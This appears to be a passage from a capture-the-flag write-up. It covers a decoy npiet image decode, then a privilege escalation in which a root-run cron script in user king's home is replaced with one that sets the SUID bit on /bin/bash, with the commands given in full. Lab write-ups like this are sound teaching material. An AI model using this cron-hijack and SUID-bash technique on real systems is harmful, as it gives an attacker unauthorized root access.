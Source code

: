 Hmm... I vaguely remember this is something called `npiet`...

We can decode it from https://www.bertnase.de/npiet/npiet-execute.php:

```
Info: upload status: Ok
Warning: imagecreatefrompng(): gd-png: fatal libpng error: Not enough image data in /home/www/bn/npiet/npiet-execute.php on line 247

Warning: imagecreatefrompng(): gd-png error: setjmp returns error condition 3 in /home/www/bn/npiet/npiet-execute.php on line 247

Warning: imagecreatefrompng(): 'npiet-execute/credentials.png' is not a valid PNG file in /home/www/bn/npiet/npiet-execute.php on line 247

Info: Oops - no suitable picture found: no useful image format...
Info: Trying to execute anyway...

Info: executing: npiet -w -e 220000 credentials.png

libpng error: Not enough image data
```

Turns out it just a *rabbit hole*.

**Cronjob:**
```
[...]
# m h dom mon dow user	command
[...]
*  *	* * *	king	cd /home/king/ && bash run.sh
*  *	* * *	root	cd /home/king/ && bash root.sh
*  *	* * *	root	cd /root/company && bash run.sh
```

In the `/etc/crontab`, we can see that there are 3 cronjobs are running.

The `root	cd /home/king/ && bash root.sh` looks exploitable, since we're user `king`, thus has right to modify the `root.sh` Bash script!

**To do so, I'll:**

- Backup the orignal `root.sh`:

```
king@ubuntu:~$ mv root.sh root.sh.bak
```

- Create a malicious `root.sh` to escalate our privilege:

```
king@ubuntu:~$ cat << EOF > root.sh
> chmod +s /bin/bash
> EOF
king@ubuntu:~$ chmod +x root.sh
```

This will add a **SUID set bit** to `/bin/bash`, which means we can leverage this to spawn a root shell.
